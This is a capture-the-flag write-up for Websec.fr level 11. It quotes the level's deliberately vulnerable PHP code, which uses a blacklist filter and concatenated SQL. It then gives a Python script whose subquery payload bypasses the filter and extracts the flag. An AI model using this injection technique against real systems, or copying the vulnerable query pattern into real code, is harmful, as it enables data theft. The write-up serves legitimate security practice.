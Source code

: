 ```yaml
---
title: Websec.fr level 11 - easy
date: October 21, 2024 00:00:00
author: Elad
categories: [Write-ups]
tags: [Websec.fr]
---
```


# The level
![image](https://github.com/user-attachments/assets/f12df14c-79aa-4d2a-a4c9-a44785e77636)


```php
<?php
ini_set('display_errors', 'on');
ini_set('error_reporting', E_ALL);

function sanitize($id, $table) {
    /* Rock-solid: https://secure.php.net/manual/en/function.is-numeric.php */
    if (! is_numeric ($id) or $id < 2) {
        exit("The id must be numeric, and superior to one.");
    }

    /* Rock-solid too! */
    $special1 = ["!", "\"", "#", "$", "%", "&", "'", "*", "+", "-"];
    $special2 = [".", "/", ":", ";", "<", "=", ">", "?", "@", "[", "\\", "]"];
    $special3 = ["^", "_", "`", "{", "|", "}"];
    $sql = ["union", "0", "join", "as"];
    $blacklist = array_merge ($special1, $special2, $special3, $sql);
    foreach ($blacklist as $value) {
        if (stripos($table, $value) !== false)
            exit("Presence of '" . $value . "' detected: abort, abort, abort!\n");
    }
}

if (isset ($_POST['submit']) && isset ($_POST['user_id']) && isset ($_POST['table'])) {
    $id = $_POST['user_id'];
    $table = $_POST['table'];

    sanitize($id, $table);

    $pdo = new SQLite3('database.db', SQLITE3_OPEN_READONLY);
    $query = 'SELECT id,username FROM ' . $table . ' WHERE id = ' . $id;
    //$query = 'SELECT id,username,enemy FROM ' . $table . ' WHERE id = ' . $id;

    $getUsers = $pdo->query($query);
    $users = $getUsers->fetchArray(SQLITE3_ASSOC);

    $userDetails = false;
    if ($users) {
        $userDetails = $users;
    $userDetails['table'] = htmlentities($table);
    }
}
?>
```

Ok! so we are not let to use join, union, as, or anything that is legitimate for sql injection. What will we do ?

## No need for "AS" to get the actual information
In SQL aliasing, you don't have to use as to alias. For instance, if I do
```sql
select 3 elad from children
```
it would actually be
```sql
select 3 as elad from children
```

## Let's go back to the source code
Great, so now we figured we don't need any special words, Let's figure out the request.
The <b>$table</b> variable needs to be an injection of somekind, that gets the enemies. How do we know that ? there are 2 hints:

1. They gave us what the query should actually be in the source code 
    ```php
    $query = 'SELECT id,username FROM ' . $table . 'WHERE id    = ' . $id;
    //$query = 'SELECT id,username,enemy FROM ' .$table . '     WHERE id = ' . $id;
    ```

2. It says in the level itself <b>"Also, I was told that super-heroes have enemies…"</b>

What about the table name we should select from ? Well, it says in the source code of the html
  ```html
  <input type="radio" class="form-control" id="costume" name="table" value="costume" checked>
  ```
So it's "<b>costume</b>"

Great !!! Let's write the request

## The request
This is the code
```python
from requests import *

url = "https://websec.fr/level11/index.php"

data = {
    'user_id': 2,
    'table': '(select 2 id, enemy username from costume)',
    'submit': 'submit'
}

print(post(url, data=data).text)
```

Simple, right? we send a post request with user_id as 2 and the query is really
```sql
select 2 as id, enemy as username from costume
```

Remember !! we need enemy as username because in the query in the source code the query being executed only picks the id, username from the table. Great !! what is the result ?


```
<!DOCTYPE html>
<html>
<head>
	<title>#WebSec Level Eleven</title>
	<link rel="stylesheet" href="../static/bootstrap.min.css" />
</head>
	<body>
		<div id="main">
			<div class="container">
				<div class="row">
					<h1>LevelEleven <small> - User 1 is likely <a href="https://fr.wikipedia.org/wiki/Capitaine_Flam">Cap'tain fla<s>m</s>g</a>.</small></h1>
				</div>
				<div class="row">
					<p class="lead">
						This application is used to view the username, with or without the costume, of superheroes, by id.<br>
						Also, I was told that super-heroes have <em>enemies</em>…<br>
						<br>
                        			To prevent sql injections, it uses a <em>super-efficient-blacklist-based</em> filter!<br>
                        			No more nasty <mark>UNION</mark> or <mark>JOIN</mark>.<br>
                        			Check the source <a href="./source.php">here </a>.
					</p>
				</div>
			</div>
			<div class="container">
				<div class="row">
					<form name="username" method="post" class="form-inline">
						<div class="form-group">
							<label for="user_id">User ID:</label>
							<input type="number" class="form-control" id="user_id" name="user_id" value="2" required>
						</div>
						<div class="form-group">
							<label class="radio-inline" for="costume">With costume </label>
							<input type="radio" class="form-control" id="costume" name="table" value="costume" checked>

							<label class="radio-inline" for="civil">Without costume </label>
							<input type="radio" class="form-control" id="civil" name="table" value="civil">
						</div>
						<input type="submit" class="form-control btn btn-default" name="submit">
					</form>
				</div>
								<br>
				<div class="row">
					<p class="well">
						The hero number <strong>2</strong>
						in <strong>(select 2 id, enemy username from costume)</strong>
						is <strong>WEBSEC{Who_needs_AS_anyway_when_you_have_sqlite}</strong>.
					</p>
				</div>
							</div>
		</div>
		<script type="text/javascript" src="../static/bootstrap.min.js"></script>
	</body>
</html>


Process finished with exit code 0
```


```
{Who_needs_AS_anyway_when_you_have_sqlite}
```

Thanks for reading !!!!
